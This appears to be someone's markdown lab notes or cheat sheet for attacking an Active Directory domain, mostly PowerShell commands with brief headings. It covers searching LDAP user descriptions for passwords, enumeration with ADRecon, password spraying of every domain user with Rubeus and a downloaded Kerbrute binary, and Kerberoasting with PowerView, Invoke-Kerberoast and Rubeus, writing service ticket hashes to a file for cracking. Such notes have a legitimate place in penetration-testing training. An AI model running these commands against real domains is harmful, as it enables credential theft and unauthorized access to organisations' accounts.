 # 1. Sensitive Data in LDAP

1.) Start ADExplorer and search through the AD for sensitive information

PS> adexplorer.exe

ADexplorer> search user description field contains pw, pwd, password, pass

2.) Enumerate the AD with ADRecon

PS> .\ADRecon.ps1

PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp

TODO: wget Excel file since Excel will not be installed

# 2. Password Spraying

1.) Identify the standard domain password and start a password spray attack

a.) Use Rubeus
PS> .\Rubeus.exe brute /password:Start123!

b.) Use Kerbrute
PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"

PS> Import-Module .\PowerView.ps1

PS> (Get-NetUser | select samAccountName).samAccountName > users.txt

PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
PS> Import-Module .\PowerView.ps1

PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt
